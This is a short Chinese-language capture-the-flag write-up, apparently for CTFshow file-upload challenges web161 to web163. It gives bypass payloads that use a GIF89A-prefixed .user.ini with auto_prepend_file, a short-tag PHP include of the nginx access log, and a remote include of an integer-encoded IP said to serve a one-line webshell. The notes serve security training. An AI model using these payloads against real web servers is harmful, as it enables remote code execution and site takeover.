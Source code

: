 ## web161

JS验证+user.ini+短标签+过滤+文件头

整体思路与楼上一样

文件头部检测是否为图片格式文件  GIF89A

```
.user.ini：GIF89A auto_prepend_file=test.png
test.png：GIF89A <?=include"/var/lo"."g/nginx/access.lo"."g"?>
```

<img src="图片\Snipaste_2023-02-01_11-26-48.png" alt="Snipaste_2023-02-01_11-26-48" style="zoom:80%;" />

## web162~163

利用远程

```
过滤 . () {} ;等
利用远程包含IP转换地址后门调用执行
.user.ini： GIF89A auto_prepend_file=21
21： GIF89A <?=include'http://730791812/'?>   //这里访问是一句话木马
```

```
.user.ini： GIF89A auto_prepend_file=<?=include'http://730791812/'?>     //也可以直接包含
```

https://www.bejson.com/convert/ip2int/

我们再访问upload目录即可触发一句话

暂时没成功

## web164
